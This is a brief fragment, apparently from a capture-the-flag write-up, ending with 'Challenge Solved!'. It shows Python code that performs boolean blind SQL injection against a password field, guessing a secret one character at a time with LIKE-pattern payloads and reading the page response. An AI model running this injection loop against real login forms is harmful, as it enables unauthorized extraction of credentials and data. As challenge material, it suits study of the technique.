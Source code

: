 ```python
    payload = basePayload + known + "\\" + chr(i) + "%'-- ";
  else:
    payload = basePayload + known + chr(i) + "%'-- ";
  # print payload

  response = requests.post(url, data = {"pass" : payload})
  content = response.text

  if len(re.findall('Oh no', content)) > 0: # Check if oh no... exists (Query = True)
    known += chr(i)
    print known
    i = 32 # Reset for next character
  i+=1
print known
```

# Challenge Solved!